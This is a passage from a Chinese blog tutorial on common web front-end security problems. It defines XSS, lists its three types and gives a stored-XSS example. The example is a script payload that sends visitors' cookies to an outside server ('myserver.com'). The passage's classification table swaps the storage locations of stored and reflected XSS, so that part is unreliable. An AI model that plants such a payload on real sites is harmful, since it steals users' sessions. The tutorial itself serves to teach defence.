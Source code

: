 ```yaml
---
title: Web前端常见安全问题
date: 2019-05-26 12:12:57
categories: web前端
tags:
- javascript
---
```


> 随着互联网的高速发展，安全问题已成为企业最关注的焦点之一。而前端又是容易引发安全问题的“窗口”，作为开发人员的我们，更需要充分了解如何预防和修复安全漏洞。本文将列举常见的前端安全问题，希望对大家有所帮助。

## 1、XSS 安全漏洞

> **跨站脚本** （英语：Cross-site scripting，通常简称为：XSS）是一种网站应用程序的安全漏洞攻击，是[代码注入](https://zh.wikipedia.org/wiki/代碼注入)的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了[HTML](https://zh.wikipedia.org/wiki/HTML)以及用户端[脚本语言](https://zh.wikipedia.org/wiki/腳本語言)。攻击者通过在目标网站上注入恶意脚本并运行，获取用户的敏感信息如 Cookie、SessionID等，影响网站与用户数据安全。
>
> 开始这种攻击的案例是跨域的，所以叫做“跨站脚本”。但是发展到今天，由于JS的强大以及网站前端应用的复杂化，是否跨域已经不再重要。但由于历史原因，XSS这个名字却一直保留下来。
>
> 本质是恶意代码未经过滤，与网站正常的代码混在一起，浏览器无法分辨哪些脚本是可信的，导致恶意脚本执行。



有个有意思的小点点，**Cross-site scripting** 的缩写本应该是 **CSS**，但是为了和 **Cascading Style Sheet** (层叠样式表，不知道我在说什么的前端同学自己去蹲墙角)区分开来，所以将其缩写成 **XSS**。

#### 分类

总的来说，**XSS** 分为三类，**存储型XSS**、**反射型XSS**、**DOM-Based XSS**

| 类型          | 存储区                  | 插入点 |
| ------------- | ----------------------- | ------ |
| 存储型XSS     | url                     | html   |
| 反射型XSS     | 后端数据库              | html   |
| DOM-Based XSS | 后端数据库/前端存储/url | 前端js |



##### 存储型XSS

> 数据库中某些字段存有 XSS 攻击数据，在客户端获取后未经过转移直接被浏览器渲染就可能导致 XSS 攻击。受害人数较多，凡是打开相应页面请求相应数据的人都会中招。

举例：

假设有一个博客园或者论坛之类的网站，我在上面发了一篇文章，内容包含以下攻击代码

```javascript
<script>window.open("www.myserver.com?param="+document.cookie)</script>
```

如果网站没有进行处理直接渲染的话，那么凡是打开我这篇文章的人，他们的cookie信息都会发送到我的服务器上。

